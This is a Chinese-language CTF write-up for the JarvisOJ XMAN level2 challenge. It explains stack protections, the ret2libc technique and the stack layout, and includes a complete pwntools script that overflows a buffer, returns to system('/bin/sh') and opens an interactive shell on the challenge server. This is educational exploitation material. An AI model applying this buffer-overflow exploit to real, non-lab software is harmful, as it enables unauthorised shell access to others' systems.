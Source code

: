 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel2题解
date: 2018-08-2 10:24:00
author:     "许大仙"
catalog: true
tags:
    - CTF
---
```


day3：XMANlevel2


## 一、peda中checksec命令 ##

![XMANlevel2的保护机制情况](/img/assets/img/checksec2.jpg)

- CANARY：(金丝雀值，指的是矿工曾利用金丝雀来确认是否有气体泄漏，如果金丝雀因为气体泄漏而中毒死亡，可以给矿工预警)，**类似于windows GS技术**，当栈溢出发生时，**canary值将在已保存的指令指针被重写前先改变。[canary放在栈中返回地址前，执行ret前检测canary的值]**系统检测这个值是否改变[ret前]，**若栈溢出发生了，canary修改，那么存储返回地址处的指令指针可能也被修改了，因此不能安全返回，函数会调用__stack_chk_fail函数。这个函数会丢出一个错误然后退出进程。**
	- 缺点：仅保护了sip，未保护应用变量，覆写GOT绕过。 

- FORTIFY:Compile Time Buffer Checks，确定函数执行栈的大小，以避免缓冲区溢出攻击。 

- NX:**No Execute.**现代处理器支持一种称为NX的特性使得系统控制各部分的执行的内存。**即程序栈不可执行。 **
- PIE:**随机化**加载程序的内存地址。 
- RELRO：**RELocation Read-Only (RELRO) 重定位只读**，它能够**保护库函数的调用不受攻击者重定向**的影响。 

## 二、level2解题思路 ##
当遇到NX开启，栈不可执行时，首先查看有没有开启ASLR，即PIE.[对本机查看aslr只是在当前机器下栈随机化情况].checksec观察到PIE: No PIE[没有装载地址随机化]。

说明可以使用ret2libc技术。[如果出现栈随机化+栈不可执行则要使用ROP技术]

ret2libc技术的核心：由于栈不可随机化，那么所有库的位置都是固定的，对于任何可执行文件都会默认自动使用引入一些标准库，比如libc库，libc库中存在system函数[即fork+execve+waitpid，可以开启一个子进程执行命令。]的位置也是固定的，在gdb下使用b main+p system就可得到system的起始地址。在退栈时设置返回地址为system函数首地址，再提供例如“/bin/sh”等实现功能的所需参数即可。

栈布局：

![ret2libc](/img/assets/img/ret.jpg)

注：exit()是为了正常退出，不会因为调用者栈帧被破坏，报错，影响退出过程[退栈返回地址返回到system，调用system时运行push ebp指令，旧ebp 入栈到Address of system()的位置，ebp指向Address of system()的位置，所以返回地址ebp+4即为Address of exit()[在system执行完，ret的时候，会返回到exit]，而ebp+8是第一个入口参数，恰好为“/bin/sh”的指针/存储地址，由system使用]

具体参考：

- https://blog.csdn.net/linyt/article/details/43643499
- https://www.shellblade.net/docs/ret2libc.pdf ——强烈建议阅读此篇,很清晰讲述了全过程（注意9-11页的阐述）
- http://www.mamicode.com/info-detail-2277563.html


![IDA中的String window--/bin/sh](/img/assets/img/IDA_bin.jpg)

将Level2拖入IDA，通过shift+F12搜索字符串，会发现/bin/sh[很奇怪的是我在win上用IDA能在level2中搜索到/bin/sh，但是在ubuntu IDA却搜不到，在python中用pwn的ELF模块的search函数能搜索到，说明确实有的]


![system函数](/img/assets/img/system.jpg)

在IDA左侧的函数列表中也发现了system函数。


因此可以构造system("/bin/sh")，产生shell。

payload = 'a' * (0x88 + 0x4)[任意覆盖] + system函数首地址 + 任意4字节(比如0xdeadbeef或exit函数首地址……) + "/bin/sh"字符串地址

![payload执行流程](/img/assets/img/process2.jpg)

## 三、解题步骤 ##


```python
 1 #!/usr/bin/env python
 2 # -*- coding: utf-8 -*-
 3 
 4 
 5 from pwn import *
 6 context(arch="i386",os="linux",log_level = 'debug')
 7 
 8 elf = ELF('./level2')  #获得level2文件的ELF
 9 sys_addr = elf.symbols['system'] #system函数地址
10 sh_addr = elf.search('/bin/sh').next() #搜索/bin/sh字符串地址
11 
12 payload = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr) #p32将0xdeadbeef转化为字符串
   #0xdeadbeef为system("/bin/sh")执行后的返回地址，可以随便指定，比如exit()函数的返回地址
13 #  io = process('./level2')
14 io = remote('pwn2.jarvisoj.com', 9878)
15 io.sendlineafter("Input:\n", payload) #在收到Input:\n之后才发出payload
16 
17 io.interactive()  #交互模式
18 io.close()
```


![执行脚本](/img/assets/img/level2_py.jpg)

![运行情况](/img/assets/img/level2.jpg)

## 四、system补充 ##

System与execev的区别: system =fork+execve+waitpid,是在单独的进程中执行命令，完了还会回到你的程序中【像是当前父进程中断了，先在子进程中运行你的程序/命令，等待子进程运行完成才继续运行父进程中system之后的代码[子进程还是复制了父进程的栈等内存]】。而exec函数是直接在你的进程中执行新的程序，新的程序会把你的程序覆盖，除非调用出错，否则你再也回不到exec后面的代码，就是说你的程序就变成了exec调用的那个程序了。
